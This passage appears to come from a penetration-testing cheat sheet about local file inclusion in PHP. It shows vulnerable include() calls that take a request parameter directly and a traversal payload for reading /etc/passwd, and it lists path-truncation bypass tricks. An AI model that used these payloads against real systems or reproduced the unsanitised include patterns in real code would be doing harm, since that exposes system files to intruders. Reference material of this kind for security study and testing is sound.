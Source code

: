 <figure><img src="../../.gitbook/assets/web_lfi_approved_paths.png" alt=""><figcaption><p>Figure 7: Exploiting LFI using by including the expected file path.</p></figcaption></figure>

### Filename Prefix

{% hint style="danger" %}
Using `/../` (_the directory may not exist and may break some FI techniques, such as PHP wrappers/filters_).
{% endhint %}

```php
# Input appended after another string
include("lang_" . $_GET['language']);
```

```html
<!-- Bypassing prefix -->
/index.php?language=/../../../etc/passwd
```

### Appended Extensions

```php
# Extension appended to the target parameter
include($_GET['language'] . ".php");
```

#### Path Truncation (ealier PHP versions)

* Max strings length is `4096` chars -> everything longer is truncated.
* Trailing `/` and `.` in path names are truncated (`/etc/passwd/.` -> `/etc/passwd`).
* Both PHP and Linux disregard multiple `/` in the path ( `////etc/passwd` =`/etc/passwd`).
* Similarly, a current directory shortcut (`.`) in the middle of the path would also be disregarded.
